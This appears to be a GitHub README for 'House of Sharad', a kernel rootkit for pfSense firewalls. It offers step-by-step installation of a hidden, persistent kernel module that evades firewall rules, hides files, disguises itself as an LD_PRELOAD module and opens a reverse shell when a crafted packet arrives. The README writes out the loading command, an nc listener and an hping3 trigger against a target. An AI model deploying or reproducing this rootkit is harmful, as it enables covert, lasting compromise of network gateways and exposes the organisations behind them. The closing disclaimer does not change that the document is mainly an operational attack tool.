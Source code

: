 House of Sharad - pfSense Rootkit

🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack, allowing for stealthy reverse shells by detecting specially crafted packets.

🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) bds_freebsd project. Huge thanks for this work!

📌 Compatibility

The precompiled .ko files are only compatible with pfSense 2.7.2 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked)

✅ Persistent LKM-based rootkit

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (FreeBSD’s nc lacks reverse shell support)

🏗️ Installation

1️⃣ Cloning and Setup

# Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git
cd house_of_sharad

# Set execution permissions
chmod +x load_and_setup.sh

# Run the setup script
./load_and_setup.sh

Once the script completes, you'll be inside a ghost /Apekit-tooshit directory. To return to root, run:

cd /

2️⃣ Loading the Rootkit

kldload /boot/modules/.evil/evil.ko

🛡️ Getting a Reverse Shell

1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

nc -lvnp 7000

2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

sudo hping3 -S -p 80 -s 6969 <TARGET_IP>

🔹 Port 80 is a good choice for the destination port.
🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

🧩 Additional Notes

Persistence: This rootkit is loaded via apeshit.sh, which is executed by load_and_setup.sh.

LD_PRELOAD Misdirection: The rootkit falsely appears as an LD_PRELOAD-related module, even though it’s an LKM.

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module.

⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.

